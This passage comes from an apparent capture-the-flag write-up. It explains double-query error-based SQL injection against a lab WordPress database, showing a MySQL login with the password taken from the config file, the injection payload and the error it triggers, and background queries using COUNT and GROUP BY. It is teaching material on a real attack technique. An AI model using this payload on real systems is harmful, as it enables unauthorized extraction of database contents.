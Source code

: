 Using the password from the WordPress config, I’ll connect to the DB:

```

root@15af95635b7d:/# mysql -pNCC-1701E wordpress
...[snip]...
mysql>

```

Running the query that is created above, the same message comes back:

```

mysql> SELECT ID FROM wp_posts WHERE post_name = 1 AND (SELECT 7485 FROM(SELECT COUNT(*),CONCAT(0x716a717871,(SELECT (ELT(7485=7485,1))),0x71627a7871,FLOOR(RAND(0)*2))x FROM INFORMATION_SCHEMA.PLUGINS GROUP BY x)a);
ERROR 1062 (23000): Duplicate entry 'qjqxq1qbzxq1' for key '<group_key>'

```

### Background

#### COUNT

To understand Double Query Error-Based injection, it’s important to understand a couple SQL keywords.

`COUNT(*)` will return show the number of rows in a given group. So I can find the number of posts:

```

mysql> select COUNT(*) from wp_posts;
+----------+
| COUNT(*) |
+----------+
|       42 |
+----------+
1 row in set (0.00 sec)

```

Or I can group by `post_title` and get the number of each title:

```

mysql> select COUNT(*), post_title from wp_posts group by post_title;
+----------+---------------------------------+
| COUNT(*) | post_title                      |
+----------+---------------------------------+
|        4 |                                 |
|        1 | A homepage section              |
|        1 | About                           |
|        1 | Auto Draft                      |
|        1 | Blog                            |
|        2 | Coffee                          |
|        1 | Contact                         |
|        1 | cropped-enterprise_header-1.jpg |
|        1 | Email                           |
|        2 | enterprise_header               |
|        2 | Espresso                        |
|        1 | Facebook                        |
|        2 | Hello world!                    |
|        2 | Home                            |
|        1 | Instagram                       |
|        3 | Passwords                       |
|        2 | Sandwich                        |
|        2 | Stardate 49827.5                |
```